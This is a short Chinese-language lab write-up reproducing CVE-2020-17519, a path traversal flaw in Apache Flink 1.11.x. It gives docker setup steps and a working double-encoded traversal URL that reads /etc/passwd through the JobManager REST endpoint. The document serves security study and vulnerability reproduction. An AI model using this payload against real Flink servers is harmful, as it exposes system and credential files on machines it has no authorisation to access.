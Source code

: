 # Apache Flink `jobmanager/logs` 路径穿越漏洞（CVE-2020-17519）

Apache Flink 是一个开源的分布式流处理和批处理大数据计算引擎。

Apache Flink 1.11.0 版本中引入的一个更改（同时也存在于 1.11.1 和 1.11.2 版本中）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任意文件。

参考链接：

- <https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801>
- <https://nvd.nist.gov/vuln/detail/CVE-2020-17519>

## 环境搭建

执行如下命令启动一个 Apache Flink jobmanager 1.11.2：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8081` 即可查看到 Apache Flink 的管理页面。

## 漏洞复现

通过以下 URL 可以读取服务器上的 `/etc/passwd` 文件内容：

```
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![](1.png)
